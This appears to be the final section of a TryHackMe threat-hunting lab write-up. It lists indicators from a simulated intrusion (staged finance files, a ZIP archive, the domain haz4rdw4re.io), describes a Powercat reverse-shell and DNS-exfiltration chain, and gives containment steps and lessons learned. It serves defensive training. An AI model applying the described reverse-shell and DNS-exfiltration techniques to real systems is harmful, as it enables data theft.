| Staging directory | `C:\Users\michael.ascot\Downloads\exfiltration` | Local staging |
| Staged file | `ClientPortfolioSummary.xlsx` | Finance-related document |
| Staged file | `InvestorPresentation2023.pptx` | Finance-related presentation |
| Archive | `exfilt8me.zip` | ZIP created in staging directory |
| Suspicious DNS domain | `haz4rdw4re.io` | Repeated query destination suffix |
| Tool | `nslookup.exe` | DNS lookups spawned by PowerShell |

## Assessment and Next Steps

**Assessment:** The endpoint sequence is internally coherent: cached invoice attachment → suspicious shortcut artifact → Powercat reverse-shell command → system reconnaissance → PowerView download → financial-share access → local collection and archive staging → encoded-looking DNS lookups. The strongest conclusion supported by the supplied evidence is **a likely malicious intrusion with attempted DNS-based data exfiltration**.

**If this were a real SOC case**, priorities would be to:

1. Contain the affected host and preserve volatile and endpoint evidence according to incident-response procedure.
2. Verify Powercat's TCP connection using EDR, firewall, proxy, or packet telemetry; identify the parent process and user interaction that triggered PowerShell.
3. Acquire DNS query/response and resolver logs for `haz4rdw4re.io` to establish whether the encoded queries left the host and reached external infrastructure.
4. Preserve and examine the original ZIP and LNK files **without executing them**, and examine associated hashes and shortcut targets.
5. Identify access to `\\FILESRV-01\SSF-FinancialRecords`, the source of copied files, and file permissions; assess business data exposure.
6. Recover, sequence, and decode the entire DNS data stream offline; validate archive integrity and compare recovered files with staged evidence.
7. Hunt for similar PowerShell→`nslookup.exe` behavior on other endpoints; tune detections to distinguish automation from malicious transfer.

### Confidence and Limitations

- **Confirmed:** File creation, observed command lines, process relationships, script-download parameters, staged document names, and the 18 `nslookup.exe` process-creation matches.
- **Strongly indicated:** The intent to stage and transfer finance-related data through encoded DNS queries.
- **Not demonstrated in this screenshot set:** Exact shortcut execution path, successful reverse-shell session, which server-side share files were copied, actual DNS network delivery, or a fully verified reconstruction of the complete archive.

## Lessons Learned

- **Start from a defensible anchor.** An Outlook FileCreate event is a useful first clue, not proof of a compromise. Follow filenames across file and process telemetry.
- **Pivot across event types.** Sysmon Event ID 11 revealed created artifacts; Event ID 1 supplied process ancestry; PowerShell Event ID 4103 supplied a concrete download URL and parameters.
- **Treat filenames as hypotheses.** A PDF-like shortcut and a ZIP attachment warranted deeper inspection, rather than instant attribution.
- **Build timelines before conclusions.** The order of share mapping, `Robocopy`, archive creation, and DNS bursts adds important context.
- **Distinguish processes from packets.** Eighteen `nslookup.exe` starts are not the same as eighteen successfully delivered DNS requests.
- **Use decoding as corroboration.** ZIP signatures and expected filenames make the exfiltration hypothesis stronger, but a complete reconstructed file should be tested for integrity.
- **Document uncertainty.** A useful Blue Team report separates evidence, plausible interpretation, and gaps that require more telemetry.

---

**Lab source:** [TryHackMe — Hunt Me I: Payment Collectors](https://tryhackme.com/) · **Focus:** Windows threat hunting, endpoint telemetry correlation, suspicious PowerShell, local staging, and DNS exfiltration analysis.
